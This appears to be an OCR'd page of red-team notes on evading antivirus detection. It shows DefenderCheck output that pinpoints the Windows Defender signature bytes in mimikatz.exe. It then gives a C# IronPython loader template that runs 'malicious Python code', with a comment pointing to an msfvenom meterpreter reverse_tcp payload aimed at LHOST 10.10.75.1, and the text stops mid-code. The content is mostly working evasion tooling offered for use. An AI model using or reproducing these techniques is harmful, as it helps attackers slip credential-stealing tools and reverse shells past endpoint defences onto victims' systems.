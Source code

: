 ### Defender Check: Evade detection

[source](https://github.com/matterpreter/DefenderCheck)

- Identify the smallest part of a file for which Windows Defender raises an alert
- The binary repeatedly split the file into piecies until Windows Defender does not respond to it

```
C:\temp> DefenderCheck.exe .\mimikatz.exe
Target file size: 1234696 bytes
Analyzing...
[!] Identified end of bad bytes at offset 0xE403A in the original file
File matched signature: "HackTool:Win64/Mikatz!dha"
00000000 7A 00 5F 00 64 00 6F 00 4C 00 6F 00 63 00 61 00 z·_·d·o·L·o·c·a·
00000010 6C 00 20 00 3B 00 20 00 22 00 25 00 73 00 22 00 l· ·;· ·"·%·s·"·
00000020 20 00 6D 00 6F 00 64 00 75 00 6C 00 65 00 20 00 ·m·o·d·u·l·e· ·
00000030 6E 00 6F 00 74 00 20 00 66 00 6F 00 75 00 6E 00 n·o·t· ·f·o·u·n·
00000040 64 00 20 00 21 00 0A 00 00 00 00 00 00 00 0A 00 d· ·!···········
00000050 25 00 31 00 36 00 73 00 00 00 00 00 00 00 20 00 %·1·6·s······· ·
00000060 20 00 2D 00 20 00 20 00 25 00 73 00 00 00 20 00 ·-· · ·%·s··· ·
```

### Obuscation: Evade detection

```

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace csharp_py
{
    class Program
    {
        static void Main(string[] args)
        {
            // Create an IronPython engine to execute Python code
            Microsoft.Scripting.Hosting.ScriptEngine pythonEngine =
                IronPython.Hosting.Python.CreateEngine();

            // Print the default search paths
            // You may need to manually add these paths to include the DLLs necessary for execution
            System.Console.Out.WriteLine("Search paths:");
            ICollection<string> searchPaths = pythonEngine.GetSearchPaths();
            foreach (string path in searchPaths)
            {
                System.Console.Out.WriteLine(path);
            }
            System.Console.Out.WriteLine();

            // Now modify the search paths to include the directory
            // where the standard library has been installed
            searchPaths.Add(@"..\..\Lib");
            searchPaths.Add(@"..\Lib");
            searchPaths.Add(@".\Lib");
            pythonEngine.SetSearchPaths(searchPaths);

            // Execute the malicious Python coce
            // Replace the payload below with your own, possibly the output of msfvenom
            // msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.75.1
```